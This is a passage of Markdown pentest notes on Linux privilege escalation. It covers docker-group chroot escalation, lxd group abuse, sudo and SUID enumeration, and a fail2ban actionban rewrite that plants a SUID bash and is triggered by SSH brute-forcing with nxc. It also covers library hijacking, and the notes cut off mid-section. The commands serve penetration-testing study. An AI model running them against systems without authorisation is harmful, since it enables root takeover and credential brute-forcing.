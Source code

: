 - **docker:** &rarr; escalate to root (tty upgrade if not working)

  ```bash
  docker image ls    # Get image name
  docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash
  ```

- **video:** can watch screen of logged in users `w`

- **staff**: can read/write `/usr/local/bin` and `/usr/local/sbin` 
  &rarr; check root processes 

- **lxd/lxc:**  &rarr; escalte to root 
  - [Method2](https://hacktricks.boitatech.com.br/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) &rarr; `cd /mnt/root`


### Privileges

[GTFOBins](https://gtfobins.github.io/)

- `strace [BIN] -c1 [IP]`: track and analyze system calls and signal processing

#### SUDO & SUIDs:
##### Enumeration
- sudo (doesn't ALWAYS require pass)
	```bash
	sudo -l		 # List sudo privileges
	sudo -V		 # Check sudo version
	```
- suids -> Non-Default / [SUID3ENUM](https://github.com/Anon-Exploiter/SUID3NUM) Tool / [GTFObin](https://gtfobins.github.io/):
	```bash
	find / -user root -perm -4000 -ls 2>/dev/null
	```
- SGID
	```bash
	find / -uid 0 -perm -6000 -type f 2>/dev/null
	```

##### Exploit Research
- Python Libraries -> `pip freeze` to get the lib version
- GTFObin
- **`fail2ban`**
  1. `/etc/fail2ban/jail.conf | grep banaction` (e.g. `= iptables-multiport`)
  2. See if you write `iptables-multiport.conf` or the action folder
  3. Replace `actionban = cp /bin/bash /tmp/bash; chmod 4777 /tmp/bash`
  4. Restart the service
  5. Get banned: `nxc ssh [IP] -u [USER] -p /usr/share/wordlists/rockyou.txt`
  6. `/tmp/bash -p`
##### Writable dependencies
- Check for libraries/executables that get called and you can write
- **LDD Hijacking**
	- `ldd [BIN]`: Displays the library of a bin, their location of the object and the hexadecimal address where they are loaded into memory
- **Python Library Hikacking**
	- Library with write permission:
	    Write the code _at the beginning_ of the function that is called from the library
	- Library Path
	    ```shell
	    # List order of library importing
	    python3 -c 'import sys; print("\n".join(sys.path))'
	    # Show installation path